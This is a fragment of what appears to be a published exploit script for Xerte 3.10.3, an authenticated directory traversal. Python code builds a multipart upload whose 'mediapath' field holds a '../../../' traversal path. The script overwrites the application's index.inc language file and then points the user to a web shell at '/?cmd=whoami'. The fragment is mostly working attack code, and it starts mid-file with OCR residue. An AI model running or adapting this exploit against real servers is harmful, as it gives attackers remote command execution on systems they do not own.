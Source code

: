define("INDEX_LOGGED_IN_AS","Logged in as");

define("INDEX_BUTTON_LOGIN","Login");

define("INDEX_BUTTON_LOGOUT","Logout");

define("INDEX_BUTTON_PROPERTIES","Properties");

define("INDEX_BUTTON_EDIT","Edit");

define("INDEX_BUTTON_PREVIEW", "Preview");

define("INDEX_BUTTON_SORT", "Sort");

define("INDEX_BUTTON_NEWFOLDER", "New Folder");

define("INDEX_BUTTON_NEWFOLDER_CREATE", "Create");

define("INDEX_BUTTON_DELETE", "Delete");

define("INDEX_BUTTON_DUPLICATE", "Duplicate");

define("INDEX_BUTTON_PUBLISH", "Publish");

define("INDEX_BUTTON_CANCEL", "Cancel");

define("INDEX_BUTTON_SAVE", "Save");

define("INDEX_XAPI_DASHBOARD_FROM", "From:");

define("INDEX_XAPI_DASHBOARD_UNTIL", "Until:");

define("INDEX_XAPI_DASHBOARD_GROUP_SELECT", "Select group:");

define("INDEX_XAPI_DASHBOARD_GROUP_ALL", "All groups");

define("INDEX_XAPI_DASHBOARD_SHOW_NAMES", "Show names and/or email addresses");

define("INDEX_XAPI_DASHBOARD_CLOSE", "Close dashboard");

define("INDEX_XAPI_DASHBOARD_DISPLAY_OPTIONS", "Display options");

define("INDEX_XAPI_DASHBOARD_SHOW_HIDE_COLUMNS", "Show / hide columns");

define("INDEX_XAPI_DASHBOARD_QUESTION_OVERVIEW", "Interaction overview");

define("INDEX_XAPI_DASHBOARD_PRINT", "Print");
\r
\r
-----------------------------170331411929658976061651588978
Content-Disposition: form-data; name="mediapath"

''' \
    + install_path \
    + '''../../../languages/en-GB/
-----------------------------170331411929658976061651588978--\r
'''

    # Overwrite index.inc file
    response = session.post(xerte_base_url + '/website_code/php/import/fileupload.php', headers=headers, data=data)
    print('Installation path: ' + install_path)
    print(response.text)
    if "success" in response.text:
        print("Visit shell @: " + xerte_base_url + '/?cmd=whoami')
# Exploit Title: Xerte 3.10.3 - Directory Traversal (Authenticated)
# Date: 05/03/2021